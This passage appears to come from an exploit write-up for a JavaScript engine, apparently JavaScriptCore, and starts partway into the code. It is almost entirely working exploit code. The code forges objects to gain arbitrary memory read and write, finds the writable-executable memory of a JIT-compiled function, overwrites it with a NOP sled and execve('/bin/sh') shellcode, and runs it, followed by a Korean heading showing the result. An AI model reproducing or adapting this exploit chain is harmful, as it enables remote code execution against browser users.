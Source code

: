 ```javascript
  return victim[2];
}
let fakeobj = function (addr) {
  hax(i2jsv(0x0108211700001000));
    victim[2] = addr;
    hax(backup);
  return victim[0];
}
let victim2 = structs[0x100];
let victim_addr = addrof(victim2);
let container = {
  header : i2jsv(0x0108210700001000),
  butterfly : victim2
}
let addr = addrof(container);
//d(victim2);
let fakeArray = fakeobj(addr + i2f(0x10));
read8 = function (addr) {
  fakeArray[1] = addr + i2f(0x10);
  return addrof(victim2.pointer);
}
write4 = function (addr, value) {
  fakeArray[1] = addr + i2f(0x10);
  victim2.pointer = value;
}
let func = makeJITFunc();
let funcAddr = addrof(func);
let executableAddr = read8(funcAddr + i2f(0x18));
let jitCodeObjAddr = read8(executableAddr + i2f(0x18));
let rwxMem = read8(jitCodeObjAddr + i2f(0x10));
print("rwx @ " + hex(f2i(rwxMem)));
shellcode = [0xb848686a, 0x6e69622f, 0x732f2f2f, 0xe7894850, 0x00003b68, 0x050f5802]

for(let i = 0; i < 0x30; i++) {
  write4(rwxMem + i2f(i * 4), i2f(0x90909090));
}
for(let i = 0; i < shellcode.length; i++) {
  write4(rwxMem + i2f(0xc0) + i2f(i * 4), i2f(shellcode[i]));
}
func();
```

## 실행 결과
![entering shellcode](./img/exploit_result.png)
